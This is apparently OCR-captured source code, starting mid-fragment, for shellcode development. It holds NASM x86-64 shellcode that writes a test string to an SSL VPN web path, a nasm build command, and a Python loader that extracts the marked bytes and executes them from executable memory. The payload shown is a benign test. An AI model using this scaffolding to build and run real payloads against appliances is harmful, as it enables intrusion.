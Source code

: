 ```asm
	syscall

	mov rax, 3  
	mov rdi, [rel fd] 
	syscall

	mov rax, 60
	xor rdi, rdi
	syscall

filename:
	db '/migadmin/sslvpn/css/aaaa',0
msg:	
	db 'hello,world',0
fd:
	dq 0
	dq 0xfefefefefefefefe
```

```
nasm -f elf64 shellcode.asm
```

```python
import ctypes
import mmap

def extract_section(file_path, start_marker, end_marker):
    # 打开文件并读取为二进制数据
    with open(file_path, 'rb') as f:
        file_data = f.read()
    
    # 定义起始和结束的标记（十六进制字节序列）
    start_bytes = bytes.fromhex(start_marker[2:])  # 去掉 '0x'
    end_bytes = bytes.fromhex(end_marker[2:])  # 去掉 '0x'

    # 查找起始和结束标记的位置
    start_pos = file_data.find(start_bytes)
    if start_pos == -1:
        raise ValueError(f"Start marker {start_marker} not found in the file.")
    
    end_pos = file_data.find(end_bytes, start_pos + len(start_bytes))
    if end_pos == -1:
        raise ValueError(f"End marker {end_marker} not found in the file.")
    
    # 提取标记之间的内容
    extracted_data = file_data[start_pos + len(start_bytes):end_pos]
    
    return extracted_data

file_path = 'shellcode.o'
start_marker = '0xfefefefefefefefe'
end_marker = '0xfefefefefefefefe'
shellcode = extract_section(file_path, start_marker, end_marker)
page_size = mmap.PAGESIZE

mem_size = ((len(shellcode) + page_size - 1) // page_size) * page_size
exec_memory = mmap.mmap(-1, mem_size,mmap.MAP_PRIVATE | mmap.MAP_ANON,mmap.PROT_READ | mmap.PROT_WRITE | mmap.PROT_EXEC)
exec_memory.write(shellcode)

# 创建一个函数指针并调用 Shellcode
shellcode_func = ctypes.CFUNCTYPE(None)(ctypes.addressof(ctypes.c_char.from_buffer(exec_memory)))
shellcode_func()
```